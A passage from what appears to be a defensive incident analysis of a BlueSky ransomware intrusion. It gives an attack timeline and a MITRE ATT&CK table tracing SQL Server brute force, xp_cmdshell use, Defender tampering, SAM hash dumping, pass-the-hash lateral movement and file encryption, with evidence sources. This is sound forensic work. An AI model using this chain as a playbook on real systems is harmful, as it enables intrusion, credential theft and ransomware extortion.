| T+8 | Persistence | Attacker downloads `del.ps1`; registers a scheduled task (`\Microsoft\Windows\MUI\LPupdate`) running as SYSTEM every 4 hours |
| T+9 | Execution | `ichigo-lite.ps1` is downloaded and executed entirely in-memory via `Invoke-Expression` |
| T+10 | Credential Access | `Invoke-PowerDump.ps1` is executed; NTLM hashes extracted from the SAM registry hive and saved to `C:\ProgramData\hashes.txt` |
| T+11 | Lateral Movement | `extracted_hosts.txt` retrieved from C2; attacker iterates over target hosts using `Invoke-SMBExec` with pass-the-hash technique |
| T+12 | Impact | `javaw.exe` (BlueSky ransomware) downloaded and deployed on the primary host and propagated to lateral movement targets; files encrypted with `.bluesky` extension; ransom note `# DECRYPT FILES BLUESKY #.txt` dropped |

---

## MITRE ATT&CK Mapping

| MITRE ID | Tactic | Technique | Observed Incident | Source Evidence |
|---|---|---|---|---|
| TA0043 | Reconnaissance | Active Scanning: Port Scanning (T1595.001) | TCP SYN scan from `87.96.21.84` against victim network | `BlueSkyRansomware.pcap` — RST pattern on sequential ports |
| TA0001 | Initial Access | Exploit Public-Facing Application (T1190) | Attacker targets exposed Microsoft SQL Server (port 1433) | `BlueSkyRansomware.pcap` — TDS protocol traffic |
| TA0006 | Credential Access | Brute Force: Password Spraying (T1110.003) | Multiple TDS7 login attempts against `sa` account | `BlueSkyRansomware.pcap` — TDS7 login packets |
| TA0002 | Execution | Command and Scripting Interpreter: SQL (T1059.007) | Attacker enables `xp_cmdshell` and executes OS commands via T-SQL | `BlueSkyRansomware.pcap` — TDS SQL batch stream |
| TA0004 | Privilege Escalation | Process Injection (T1055) | C2 injected into `winlogon.exe` to gain SYSTEM privileges | `BlueSkyRansomware.evtx` — Event ID 400 (PowerShell Engine Start) |
| TA0005 | Defense Evasion | Impair Defenses: Disable or Modify Tools (T1562.001) | `Set-MpPreference` disables real-time monitoring; exclusion paths added | `checking.ps1` — `Disable-WindowsDefender` function |
| TA0005 | Defense Evasion | Modify Registry (T1112) | Five Windows Defender registry keys disabled under `HKLM:\SOFTWARE\Microsoft\Windows Defender` | `checking.ps1` — `$defenderRegistryKeys` array |
| TA0005 | Defense Evasion | Obfuscated Files or Information (T1027) | Base64-encoded PowerShell commands used in `ichigo-lite.ps1` to hide credential dumping | `ichigo-lite.ps1` — `$EncodedCommand`, `$EncodedExec` variables |
| TA0011 | Command & Control | Ingress Tool Transfer (T1105) | Multiple PowerShell scripts and binaries downloaded from `87.96.21.84` | `BlueSkyRansomware.pcap` — HTTP GET requests |
| TA0007 | Discovery | Permission Groups Discovery: Local Groups (T1069.001) | Script checks SID `S-1-5-32-544` (local Administrators) to verify elevated rights | `checking.ps1` — `WindowsIdentity::GetCurrent().groups` check |
| TA0003 | Persistence | Scheduled Task/Job: Scheduled Task (T1053.005) | Hourly scheduled task `\Microsoft\Windows\MUI\LPupdate` created, running as SYSTEM | `checking.ps1` — `schtasks.exe` command in `CleanerEtc` function |
| TA0003 | Persistence | Masquerading (T1036) | Task name mimics a legitimate Windows MUI language pack update; binary named `javaw.exe` | `checking.ps1` — task name; `ichigo-lite.ps1` — binary name |
| TA0006 | Credential Access | OS Credential Dumping: Security Account Manager (T1003.002) | `Invoke-PowerDump.ps1` extracts NTLM hashes from SAM hive; output written to `hashes.txt` | `ichigo-lite.ps1` — Base64-decoded `Invoke-PowerDump` execution |
| TA0008 | Lateral Movement | Use Alternate Authentication Material: Pass the Hash (T1550.002) | NTLM hashes from `hashes.txt` used with `Invoke-SMBExec` to authenticate to hosts in `extracted_hosts.txt` | `ichigo-lite.ps1` — `Invoke-SMBExec` loop |
| TA0008 | Lateral Movement | Remote Services: SMB/Windows Admin Shares (T1021.002) | `Invoke-SMBExec` used to execute commands on remote hosts over SMB | `ichigo-lite.ps1` — `Invoke-SMBExec -Target $targetHost` |
| TA0040 | Impact | Data Encrypted for Impact (T1486) | Files encrypted with `.bluesky` extension; ransom note `# DECRYPT FILES BLUESKY #.txt` dropped | Sandbox behavioral analysis of `javaw.exe` (BlueSky ransomware) |
